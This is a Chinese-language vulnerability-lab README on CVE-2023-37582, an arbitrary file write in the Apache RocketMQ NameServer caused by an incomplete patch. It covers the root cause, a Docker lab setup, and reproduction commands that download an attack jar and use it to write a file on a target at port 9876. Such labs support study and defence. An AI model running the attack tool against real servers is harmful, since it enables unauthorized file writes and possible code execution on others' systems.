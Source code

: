 # Apache RocketMQ NameServer 任意文件写入漏洞（CVE-2023-37582）

Apache RocketMQ是一个分布式消息和流处理平台，具有低延迟、高性能和可靠性、万亿级容量和灵活的可扩展性。

在RocketMQ版本5.1.1及以下版本中，NameServer组件存在一个任意文件写入漏洞。该漏洞存在于RocketMQ的NameServer组件的配置更新功能中。通过向NameServer发送`UPDATE_NAMESRV_CONFIG`命令，攻击者可以修改`configStorePath`配置项及其内容，从而导致任意文件写入。

该漏洞源于对[CVE-2023-33246](https://github.com/vulhub/vulhub/tree/master/rocketmq/CVE-2023-33246)的不完全修复。在处理CVE-2023-33246时，官方团队建立了一个不能被修改的配置项黑名单。然而，补丁错误地将黑名单指定为`configStorePathName`，而应该是`configStorePath`，导致了这一结果。

参考链接：

- <https://github.com/apache/rocketmq/pull/6843>
- <https://drun1baby.top/2023/11/21/CVE-2023-37582-Apache-RocketMQ-RCE-%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/>
- <https://github.com/Malayke/CVE-2023-37582_EXPLOIT>

## 漏洞环境

执行如下命令启动一个RocketMQ NameServer 5.1.0：

```shell
docker compose up -d
```

环境启动后，RocketMQ的NameServer将会监听在9876端口。

## 漏洞复现

使用这个[工具](https://github.com/vulhub/rocketmq-attack)来复现漏洞并写入任意文件：

```shell
wget https://github.com/vulhub/rocketmq-attack/releases/download/1.1/rocketmq-attack-1.1-SNAPSHOT.jar
java -jar rocketmq-attack-1.1-SNAPSHOT.jar AttackNamesrv --target your-ip:9876 --path "/tmp/success" --content "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
```

执行完成后，可以验证文件是否写入成功：

```shell
cat /tmp/success
```

可见，内容写入成功：

！[](1.png)
